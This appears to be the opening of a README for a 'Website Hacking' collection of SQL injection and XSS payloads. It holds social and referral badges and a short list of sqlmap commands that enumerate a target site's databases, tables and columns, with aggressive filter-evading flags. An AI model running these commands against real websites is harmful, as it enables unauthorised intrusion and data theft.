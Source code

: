 <div class="icon-container">
 <p align="center">
<a href="https://www.linkedin.com/in/khetaguridimitri" target="_blank" rel="noopener noreferrer">
  <img style="max-width: 100%;" src="https://img.shields.io/badge/LinkedIn-0077B5?style=for-the-badge&logo=linkedin&logoColor=white" alt="LinkedIn">
</a>
<a href="https://www.twitter.com/xetaguridimitri" target="_blank" rel="noopener noreferrer">
  <img style="max-width: 100%;" src="https://img.shields.io/badge/Twitter-1DA1F2?style=for-the-badge&logo=twitter&logoColor=white" alt="Twitter">
</a>
</div>
   <p align="center">
<a href="https://hackers.ge" target="_blank" rel="noopener noreferrer">
  <img style="max-width: 100%;" src="https://media.giphy.com/media/NcSRM70PbxRbR0PMZJ/giphy.gif" alt="Hackers.ge">
</a>
     </p>
   <p align="center">
<a href="https://www.binance.com/en/activity/referral/offers/claim?ref=CPA_00E51KANBK" target="_blank" rel="noopener noreferrer">
  <img style="max-width: 100%;" src="https://media.giphy.com/media/r5PH7oEtPW7hCnZiWN/giphy.gif" alt="CryptoERA">
</a>
     </p>


# <p align="center"><img src="https://img.shields.io/badge/SQL-Injection-critical"></p> SQL Injection, Cross-Site Scripting, Payloads, Dorks, Commands & Lists []  Website Hacking © 2020 - 2022 Collections 

<p align="center">
  <a href="https://sqlmap.org/" target="_blank"> SQLMAP Download
</p>

### Default SQL Injection Commands

sqlmap -u 'Website' --dbs

sqlmap -u 'Website' --dbms='BaseName' -D name.db --tables

sqlmap -u 'Website' --dbms='BaseName' -D name.db -T name.tables --columns

sqlmap -u 'Website' --dbms='BaseName' -D name.db -T name.tables -C name.columns

Default CMD | --random-agent --level=5 --risk=3 --tamper=space2comment --anwser="follow" --batch --threads=10 --beep
